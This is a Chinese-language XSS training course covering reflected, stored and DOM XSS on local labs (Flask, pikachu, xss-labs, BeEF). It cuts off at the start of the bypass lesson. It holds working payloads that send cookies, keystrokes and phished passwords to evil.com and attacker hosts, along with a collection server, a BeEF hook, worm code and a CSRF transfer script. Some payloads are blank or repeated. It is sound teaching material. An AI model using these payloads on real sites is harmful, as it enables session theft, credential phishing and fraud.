# XSS 跨站脚本攻击详解 —— 反射型 / 存储型 / DOM 型
## 📚 课程目录
| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | XSS 基础 + 同源策略 + 反射型 XSS | 60 min | 手写反射型 XSS 并 curl 复现 |
| 第 2 课 | 存储型 XSS + DOM 型 XSS | 70 min | 完成 pikachu / xss-labs 通关 |
| 第 3 课 | XSS 实战利用 + BeEF 框架 | 60 min | 偷 Cookie / 键盘记录 / 钓鱼 |
| 第 4 课 | 绕过技巧 + 防御方案 + 真实案例 | 50 min | CSP / HttpOnly / 输出编码 |


> 🎯 **学完本课你应当能做到**：
> 1. 30 秒内判断某接口是反射型 / 存储型 / DOM 型
> 2. 在 DVWA High 关卡绕过防护并 alert(1)
> 3. 搭建 XSS 平台接收 Cookie，并完成一次钓鱼攻击
> 4. 写出针对 HTML / JS / 属性 / URL 上下文的正确编码方案

---

# 🗓️ 第 1 课 · XSS 基础 + 同源策略 + 反射型 XSS
## 1.1 什么是 XSS？
### 一句话定义
**XSS (Cross-Site Scripting) 跨站脚本攻击**：  
攻击者把**恶意 JavaScript 代码**注入到网页中，**让其他用户的浏览器执行**。

### 为什么不叫 CSS？
CSS 已经被「层叠样式表 (Cascading Style Sheets)」占用，为避免歧义简写为 **XSS**。


---

## 1.2 XSS 的本质：JS 在受害者浏览器执行


### 关键认知：JS 在浏览器能干什么？
```plain
读 DOM         → document.body.innerHTML
读 Cookie      → document.cookie
读 LocalStorage → localStorage.getItem('token')
发请求         → fetch('/api/transfer', {...})
重定向         → location.href = 'http://evil.com'
加载外部脚本   → document.createElement('script')
键盘记录       → document.onkeypress = ...
截屏           → html2canvas
获取摄像头     → navigator.mediaDevices（需授权）
```

🎯 **核心理解**：  
JS 在浏览器就是"半个客户端 OS"。  
一旦 XSS 执行，**受害者当前页面在浏览器内能做的事，攻击者全都能做**。

---

## 1.3 同源策略 (Same-Origin Policy) —— XSS 的边界
### 什么是"同源"？
**协议 (scheme) + 域名 (host) + 端口 (port)** 三者**完全一致**才算同源。

```plain
http://a.com/page   vs   http://a.com/other        → 同源 ✅
http://a.com        vs   https://a.com             → 不同源 ❌（协议不同）
http://a.com:80     vs   http://a.com:8080         → 不同源 ❌（端口不同）
http://a.com        vs   http://b.com              → 不同源 ❌（域名不同）
http://a.com        vs   http://www.a.com          → 不同源 ❌（子域不同）
```

### 同源策略限制了什么？


### XSS 为什么能绕过同源策略？
因为**恶意 JS 注入到了目标网站自己的页面里**。  
它和目标网站**就是同源**，**享受全部权限**。
```plain
攻击者把 <script> 注入到 bank.com 的页面
→ 这段 JS 的执行源是 bank.com
→ 它能读 bank.com 的 Cookie、AJAX 请求 bank.com 的接口
→ 同源策略完全失效
```

---

## 1.4 XSS 的三大类型（核心）


### 三型对比表
| 维度 | 反射型 | 存储型 | DOM 型 |
| --- | --- | --- | --- |
| Payload 位置 | URL 参数 | 数据库 | URL（页面内 JS 取） |
| 是否经过服务端 | ✅ | ✅ | ❌ |
| 持久性 | 一次性 | 持久 | 一次性 |
| 危害 | 中（需诱导） | 高（自动触发） | 中 |
| 典型场景 | 搜索框、链接 | 留言板、评论区 | 前端 SPA、URL Hash |
| 检测难度 | 易 | 易 | 较难 |


---

## 1.5 反射型 XSS 原理
### 经典模型


### 一个最小例子
```php
<?php
// search.php
$q = $_GET['q'];
echo "搜索结果：" . $q;   // ❌ 直接输出未编码
?>
```

访问：
```plain
http://site.com/search.php?q=hello
→ 页面显示：搜索结果：hello

http://site.com/search.php?q=<script>alert(1)</script>

→ 页面显示：搜索结果：<script>alert(1)</script>

→ 浏览器执行 alert！
```

---

## 1.6 反射型 XSS 实操（自建靶场）
```bash
mkdir -p /tmp/xss-lab
cat > /tmp/xss-lab/app.py <<'EOF'
from flask import Flask, request
app = Flask(__name__)

@app.route("/search")
def search():
    q = request.args.get("q", "")
    # ❌ 直接输出未转义
    return f'''
    <html><body>
        <h2>搜索结果</h2>

        <p>你搜索的关键词：{q}</p>

    </body></html>

    '''

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF

pip3 install flask
python3 /tmp/xss-lab/app.py
```

### curl 测试
```bash
# 1. 普通搜索
curl "http://localhost:5000/search?q=hello"

# 2. XSS Payload
curl "http://localhost:5000/search?q=<script>alert(1)</script>"

# 3. 偷 Cookie 的 Payload
curl -G "http://localhost:5000/search" \
  --data-urlencode 'q=<script>new Image().src="http://evil.com/log?c="+document.cookie</script>'
```

浏览器打开第 3 个 URL，理论上会向 `evil.com` 发送当前 Cookie。

---

## 1.7 反射型 XSS 的典型触发点
| 位置 | 示例 |
| --- | --- |
| 搜索结果页 | `search.php?q=xxx` |
| 错误信息 | `error.php?msg=xxx` |
| 重定向 URL | `redirect.php?url=xxx` |
| 表单回显 | 注册失败后用户名回填 |
| HTTP Header | Referer / User-Agent（写入日志页面） |
| 文件名回显 | 上传后显示 "上传成功：xxx" |
| JSONP 回调 | `callback=xxx` |


---

## 1.8 反射型 XSS Payload 速查
```html
<!-- 基础弹窗 -->
<script>alert(1)</script>

<!-- 利用 img 标签 -->


<!-- 利用 svg -->
<svg onload=alert(1)>

<!-- 利用 body -->
<body onload=alert(1)>

<!-- 利用 input -->
<input onfocus=alert(1) autofocus>

<!-- 利用 details -->
<details open ontoggle=alert(1)>

<!-- 偷 Cookie -->
<script>fetch('http://evil.com/log?c='+document.cookie)</script>

<!-- 引入外部脚本 -->
<script src=http://evil.com/evil.js></script>

<!-- HTML5 新特性 -->
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>
```

---

## 1.9 为什么反射型 XSS 危害看似"低"？


**实际危害**：
+ 配合短链接服务伪装恶意 URL
+ 钓鱼邮件 / 即时消息中嵌入链接
+ 在管理员后台触发（管理员权限更高）

---

## 1.10 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| XSS 本质 | JS 在受害者浏览器执行 |
| 同源策略 | 协议+域名+端口一致 |
| XSS 绕过同源 | 因为 JS 注入到了目标页面 |
| 反射型 XSS | URL 参数注入，一次性 |
| JS 浏览器能力 | 读 Cookie / DOM / AJAX / 重定向 |
| 危害来源 | 受害者页面能做的，JS 都能做 |


### 课间实操（10 分钟）
1. 启动自建 Flask 靶场，curl 测试 3 种 Payload
2. 浏览器访问 `http://localhost:5000/search?q=<script>alert(document.cookie)</script>`
3. 把 Payload 改成 ``，验证不同标签触发

---

# 🗓️ 第 2 课 · 存储型 XSS + DOM 型 XSS
## 2.1 存储型 XSS 原理


### 经典例子
```php
// submit.php - 提交留言
$content = $_POST['content'];
mysqli_query($conn, "INSERT INTO comments (content) VALUES ('$content')");

// list.php - 显示留言
$result = mysqli_query($conn, "SELECT content FROM comments");
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div class='comment'>" . $row['content'] . "</div>";  // ❌ 未编码
}
```

攻击者提交一次 `<script>...</script>`，**所有访问此页面的用户都会被攻击**。

---

## 2.2 存储型 XSS 危害远大于反射型
| 维度 | 反射型 | 存储型 |
| --- | --- | --- |
| 触发方式 | 需诱导点击 | 访问即触发 |
| 受害者数量 | 单个（点击者） | 所有访问者 |
| 持续时间 | 一次性 | 直到数据被删 |
| 隐蔽性 | 低（URL 可见） | 高（页面内） |
| 危害等级 | 中 | **高** |
| 入罪风险 | 中 | **高**（影响用户多） |


---

## 2.3 存储型 XSS 高发场景


### 一个真实场景：用户名越权存储型 XSS
```plain
注册账号，把昵称设为：
所有看到该用户昵称的页面（论坛帖子作者、聊天列表、点赞列表）都会触发
```

---

## 2.4 靶场复现 1：pikachu 存储型 XSS
```bash
docker run -d --name pikachu -p 8088:80 area39/pikachu
```

### 步骤
1. 进入 `XSS 漏洞 → 存储型 XSS`
2. 在留言板输入：
```html
<script>alert('存储型 XSS 触发')</script>
```
3. 提交，刷新页面 → **alert 弹窗**

### 危害验证
```plain
打开新浏览器（无痕窗口），再次访问留言板 → 仍然弹窗
说明：恶意代码已存储在数据库，对所有用户生效
```

### 偷 Cookie Payload（在靶场内）
```html
<script>
var img = new Image();
img.src = 'http://localhost:9999/log?c=' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
</script>

```

启动监听：
```bash
# 终端 1
python3 -m http.server 9999
# 受害者访问后，终端会看到 GET /log?c=... 的请求
```

---

## 2.5 靶场复现 2：xss-labs 通关（Level 1-5）
### 启动 xss-labs
```bash
docker run -d --name xss-labs -p 8090:80 docker.io/c0ny1/xss-labs:latest
```

### Level 1 —— 反射型最基础
```plain
http://localhost:8090/level1.php?name=test
```

页面直接显示 `name` 参数。源码：
```php
<input name="keyword" value="<?php echo $_GET['name']; ?>">  ← 错，应该在 value 内
但实际是：
欢迎用户 <?php echo $_GET['name']; ?>
```

Payload：`<script>alert(1)</script>`

### Level 2 —— 闭合 value 属性
页面：
```html
<input name="keyword" value="test">
```

闭合 value：
```plain
"><script>alert(1)</script><"
```

页面变成：
```html
<input name="keyword" value=""><script>alert(1)</script><"">
```

### Level 3 —— 单引号 + 事件触发
```html
<input name='keyword' value='test'>     ← 单引号包裹
```

闭合：
```plain
' onclick='alert(1)'
```

点击输入框触发。

### Level 4 —— 双引号 + 事件触发
```html
<input name="keyword" value="test">
```

但 `<script` 被过滤了：

```plain
" onclick='alert(1)' x="
```

### Level 5 —— href 注入 + 大小写绕过
```html
<a href="<?php echo $_GET['src']; ?>">    ← 把 script 替换成空
```

Payload：用 `<a href` 注入：

```plain
" onclick='alert(1)' x="
```

或：

```plain
"><a href=javascript:alert(1)>点我</a>

```

---

## 2.6 xss-labs 通关要点（6-10 关简述）
| 关卡 | 关键技巧 |
| --- | --- |
| Level 6 | 大小写绕过 `<ScRiPt>` |
| Level 7 | 双写绕过 `<scr<script>ipt>` |
| Level 8 | Unicode 编码绕过 `javascript:` |
| Level 9 | 检测 `http://` 关键字，URL 中带 |
| Level 10 | 隐藏表单 `t_link` / `t_history` 等，URL 参数控制 |


🎯 **学习提示**：  
xss-labs 1-10 关覆盖了 90% 的 XSS 绕过技巧。  
建议每关先**自己尝试**，实在过不去再查 writeup。

---

## 2.7 DOM 型 XSS 原理


### 关键特征
**DOM 型 XSS 不经过服务器**！  
服务器返回的 HTML 是固定的，**漏洞代码在页面内的 JavaScript**。


### 典型漏洞代码
```html
<script>
// 读取 URL hash 写入 DOM
var data = location.hash.substring(1);
document.getElementById("output").innerHTML = data;
</script>

<div id="output"></div>

```

利用：

```plain
http://site.com/page#
```

**服务器日志**：只看到 `GET /page`，**看不到 hash（#后内容不发送给服务器）**。

---

## 2.8 DOM 型 XSS 常见 Source / Sink
### Source（数据来源）
```javascript
location.hash          // URL # 后部分
location.search        // URL ? 后部分
location.href          // 完整 URL
document.referrer      // 来源 URL
document.URL
window.name            // 跨页面保持的变量
localStorage          // 本地存储
postMessage            // 跨窗口通信
```

### Sink（危险写入点）
```javascript
.innerHTML = ...       // 写入 HTML
.outerHTML = ...
.document.write(...)
.eval(...)
setTimeout("...")      // 字符串当代码
setInterval("...")
Function(...)()        // 动态函数
jQuery.$(...).html(...)
element.setAttribute('href', ...)  // 写入 javascript:
```

🎯 **核心规则**：  
**当 Source（用户可控）→ Sink（危险函数）时，就可能有 DOM XSS**。

---

## 2.9 DOM 型 XSS 实操
```bash
cat > /tmp/xss-lab/dom.py <<'EOF'
from flask import Flask
app = Flask(__name__)

@app.route("/dom")
def dom():
    # 注意：服务端不读取 hash，只返回静态页面
    return '''
    <html><body>
        <div id="output">加载中...</div>

        <script>
            var input = location.hash.substring(1);
            document.getElementById("output").innerHTML =
                decodeURIComponent(input);
        </script>

    </body></html>

    '''

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF

python3 /tmp/xss-lab/dom.py
```

### 利用
浏览器访问：
```plain
http://localhost:5000/dom#
```

观察：服务器日志没有任何 onerror 内容 → **纯客户端漏洞**。

---

## 2.10 三型 XSS 对比与识别速查
| 检查方法 | 反射型 | 存储型 | DOM 型 |
| --- | :---: | :---: | :---: |
| 看 URL 是否含 Payload | ✅ | ❌ | ✅（hash 也算） |
| 看 DB 是否有 Payload | ❌ | ✅ | ❌ |
| 看页面源码 | 服务端写入 | 服务端写入 | 客户端 JS 写入 |
| 关闭 JS 是否触发 | ✅ | ✅ | ❌ |
| 服务器日志是否含 Payload | ✅ | ❌（仅提交时） | ❌（hash 不发送） |


🎯 **快速识别三型 XSS 的口诀**：  **"刷新还在不在，源码看得见看不见"**
+ 刷新页面 Payload 仍在 → 存储型
 + 源码里直接看到 → 反射型 / 存储型
 + 源码里没有，但 F12 开发者工具 Elements 里看到 → DOM 型

---

## 2.11 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| 存储型 XSS | 持久化到 DB，访问即触发 |
| 存储型危害 | 大于反射型（多用户自动触发） |
| DOM 型 XSS | 纯客户端 JS，不经过服务器 |
| Source | location.hash / search / referrer |
| Sink | innerHTML / document.write / eval |
| xss-labs | 1-10 关覆盖 90% 绕过技巧 |
| 识别口诀 | 刷新还在不在，源码看得见看不见 |


### 课间实操（15 分钟）
1. 完成 pikachu 存储型 XSS，验证刷新后仍触发
2. 完成 xss-labs Level 1-5
3. 启动自建 DOM 靶场，浏览器测试 hash 注入

---

# 🗓️ 第 3 课 · XSS 实战利用 + BeEF 框架
## 3.1 从"弹框"到"实战"


> ⚠️ **法律边界**：
> + 在 SRC 测试中，**alert(1) 已经构成漏洞 PoC**
> + 进一步偷 Cookie / 拿权限 = 入侵，需授权
> + 任何"真实利用"都只能在**自己搭建的靶场**进行

---

## 3.2 偷 Cookie 完整流程
### 步骤 1：搭建接收平台
```bash
mkdir -p /tmp/xss-platform
cd /tmp/xss-platform

# 最简单的 Python 接收服务器
cat > server.py <<'EOF'
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        # 提取 Cookie
        with open("cookies.log", "a") as f:
            f.write(self.path + "\n")
            f.write("UA: " + self.headers.get("User-Agent", "?") + "\n")
            f.write("IP: " + self.client_address[0] + "\n")
            f.write("-" * 50 + "\n")
        self.send_response(200)
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()
        self.wfile.write(b"ok")

HTTPServer(("0.0.0.0", 9999), Handler).serve_forever()
EOF

python3 server.py
```

### 步骤 2：构造 Payload
```html
<script>
new Image().src = 'http://attacker-ip:9999/log?cookie=' +
    encodeURIComponent(document.cookie) +
    '&url=' + encodeURIComponent(location.href) +
    '&ua=' + encodeURIComponent(navigator.userAgent);
</script>

```

### 步骤 3：在靶场注入
把上面的 Payload 提交到 pikachu 留言板。

### 步骤 4：受害者访问
用另一台机器（或无痕窗口）访问留言板，几秒后查看 `cookies.log`：

```plain
/log?cookie=PHPSESSID%3Dabc123...&url=http%3A%2F%2Flocalhost%3A8088...
UA: Mozilla/5.0 ...
IP: 192.168.1.100
--------------------------------------------------
```

### 步骤 5：利用 Cookie 接管
```bash
# 用偷到的 Cookie 重放
curl -b "PHPSESSID=abc123..." http://victim-site.com/user/profile
```

🎯 **核心防御**：HttpOnly Cookie 标志（第 4 课讲）。


---

## 3.3 键盘记录 Payload
```html
<script>
document.onkeypress = function(e) {
    var key = String.fromCharCode(e.which);
    new Image().src = 'http://attacker:9999/key?k=' + encodeURIComponent(key);
};
</script>

```

效果：用户在页面上的**每一次按键**都会发送给攻击者。

---

## 3.4 钓鱼 Payload（伪造登录框）
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
    <h2 style="text-align:center;margin-top:100px">会话已过期，请重新登录</h2>

    <div style="text-align:center;margin-top:20px">
        <input id="u" placeholder="用户名"><br><br>
        <input id="p" type="password" placeholder="密码"><br><br>
        <button onclick="steal()">登录</button>

    </div>

</div>

<script>
function steal() {
    var u = document.getElementById('u').value;
    var p = document.getElementById('p').value;
    new Image().src = 'http://attacker:9999/phish?u=' + u + '&p=' + p;
}
</script>

```

用户进入页面后看到"会话过期"提示，**输入用户名密码后被发送到攻击者服务器**。

---

## 3.5 BeEF 框架
### 什么是 BeEF？
 **BeEF (Browser Exploitation Framework)** —— 浏览器利用框架。  
一旦受害者的浏览器执行了 BeEF 的 hook.js，攻击者就能：
 + 实时查看/操作受害者浏览器
 + 命令执行（浏览器上下文内）
 + 内网扫描
 + 摄像头 / 麦克风（需授权）
 + 持久化控制

### 安装（Kali 自带）
```bash
# Kali
sudo apt install beef-xss

# 或 docker
docker run -d --name beef -p 3000:3000 -p 6789:6789 \
  -e BEEF_USER=beef -e BEEF_PASS=beef \
  jlesage/beef
```

### 启动
```bash
sudo beef-xss
# 访问 http://localhost:3000/ui/panel
# Hook URL: http://localhost:3000/hook.js
```

### 注入 Hook
```html
<script src="http://attacker:3000/hook.js"></script>
```

提交到 pikachu 留言板，受害者访问后 → 在 BeEF 控制台出现一个"zombie"。

### BeEF 命令演示
| 分类 | 命令 | 效果 |
| --- | --- | --- |
| Browser | Get Cookie | 偷 Cookie |
| Browser | Get Domain | 获取当前域名 |
| Browser | Alert Dialog | 弹个框 |
| Browser | Redirect Browser | 重定向 |
| Persistence | Create Pop-Under | 弹窗持久化 |
| Network | Identify LAN Subnets | 探测内网 |
| Network | Ping | 内网主机发现 |
| Social Engineering | Fake Facebook Login | 钓鱼页面 |
| Social Engineering | Pretty Theft | 通用钓鱼 |


---

## 3.6 XSS 蠕虫原理
### 什么是 XSS 蠕虫？


### 经典案例：Samy Worm (2005)
+ 平台：MySpace
+ 攻击者 Samy Kamkar
+ Payload：在任何人访问 Samy 主页时，自动把自己复制到访问者主页
+ 一天感染 **100 万用户**
+ Samy 被判 3 年缓刑 + 90 天社区服务

### 简化蠕虫代码思路
```javascript
// 1. 偷当前用户的 Cookie
fetch('http://attacker/log?c=' + document.cookie);

// 2. 用当前用户身份发布新内容（含同样 Payload）
fetch('/api/post', {
    method: 'POST',
    credentials: 'include',     // 自动带 Cookie
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({
        content: '<script>/* 同样的蠕虫代码 */</script>'
    })
});
```

> ⚠️ **法律红线**：  
蠕虫 = 大规模破坏，**直接触《刑法》286 条破坏计算机信息系统罪（最高 15 年）**。  
仅供理解原理，**绝不在真实环境使用**。
>

---

## 3.7 XSS 进阶利用
### 1. 内网探测
```javascript
// 探测内网 IP / 端口
for (var i = 1; i < 255; i++) {
    var img = new Image();
    img.onload = function() { report('192.168.1.' + i + ' alive'); };
    img.src = 'http://192.168.1.' + i + '/favicon.ico';
}
```

### 2. 读取 CSRF Token
```javascript
// 偷页面上的 CSRF Token
var token = document.querySelector('meta[name=csrf-token]').content;
fetch('http://attacker/log?t=' + token);
```

### 3. 配合 CSRF 完成操作
```javascript
// 用受害者身份发起转账
fetch('/api/transfer', {
    method: 'POST',
    credentials: 'include',
    body: 'amount=10000&to=attacker_account'
});
```

### 4. 加载外部攻击脚本
```html
<script src="http://attacker/evil.js"></script>

```

**好处**：Payload 可以很长，且能随时更新。

---

## 3.8 第 3 课小结
| 利用方式 | 关键技术 |
| --- | --- |
| 偷 Cookie | Image().src 上报 |
| 键盘记录 | document.onkeypress |
| 钓鱼 | 全屏覆盖 + 假登录框 |
| BeEF | 一键化浏览器控制 |
| XSS 蠕虫 | 自我复制 + 自动传播 |
| 内网探测 | 加载内网资源图 |
| CSRF 配合 | credentials:include |


### 课间实操（15 分钟）
1. 搭建 Python 接收平台
2. 在 pikachu 留言板注入偷 Cookie Payload，验证接收
3. 安装 BeEF，注入 hook.js，体验控制台命令

---

# 🗓️ 第 4 课 · 绕过技巧 + 防御方案 + 真实案例
## 4.1 常见过滤策略


---

## 4.2 大小写 / 双写绕过
### 大小写绕过
```plain
